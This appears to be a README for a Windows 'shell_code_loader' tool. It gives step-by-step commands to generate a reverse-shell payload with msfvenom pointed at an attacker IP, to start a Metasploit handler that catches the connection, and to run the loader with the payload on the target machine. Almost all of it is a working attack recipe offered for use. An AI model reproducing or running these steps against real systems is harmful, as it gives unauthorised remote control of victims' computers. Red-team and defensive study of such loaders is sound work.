 # shell_code_loader

### How it's work ?

###### Generate the shell_code payload
```
msfvenom -p windows/shell_reverse_tcp LHOST=X.X.X.X LPORT=80 -f csharp > shell_code.txt
```
- LHOST : is equal to the attacker ip addr  
- LPORT : you can use the port value of your choice  

###### Metasploit
Open metasploit console
```
msfconsole
```

Use the following command
```
use exploit/multi/handler
ENTER
set payload windows/shell_reverse_tcp
ENTER
set LPORT 80
ENTER
set LHOST X.X.X.X
ENTER
run
```

###### Execute on target machine
On windows open a cmd or powershell terminal
```
./shell_code_loader.exe shell_code.txt
```


### References
https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc

